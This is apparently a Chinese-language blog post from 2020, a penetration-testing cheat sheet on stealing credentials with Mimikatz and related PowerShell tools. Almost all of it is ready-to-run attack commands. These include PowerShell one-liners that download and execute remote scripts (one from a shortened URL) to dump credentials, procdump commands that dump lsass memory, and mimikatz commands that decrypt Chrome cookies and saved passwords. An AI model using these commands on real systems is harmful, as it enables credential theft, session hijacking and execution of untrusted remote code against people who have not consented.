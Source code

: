 ```yaml
---
layout:     post
title:       Mimikatz读取chrome浏览器cookies，password
subtitle:   Mimikatz读取密码
date:       2020-06-29
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - google
    - 渗透测试

---
```

### 1.2免杀抓取密码的两种方式

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"
tips:powershell 默认windows visa后才有
```

procdump lsass 进程导出技巧
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp //For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp //For 64 bits
然后本地使用mimikatz 还原密码
### mimikatz 读取chrome cookies

```
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\cookies /unprotect" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\USERDA~1" exit

mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\google\chrome\USERDA~1\default\LOGIND~1" exit //读chrome密码
```
### powershell 常用工具的信息收集工具

FTP访问、共享连接、putty连接 驱动、应用程序、hosts 文件、进程、无线网络记录

```
powershell "IEX (New-Object Net.WebClient).DownloadString(' https://github.com/samratashok/nishang/tree/master/Gather/Gather/Get-Information.ps1'); Get-Information"
```

正则过滤进程密码，已测windows7

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1'); Invoke-mimikittenz

sqlserver密码获取工具Get-MSSQLCredentialPasswords.psm1 //未测
```



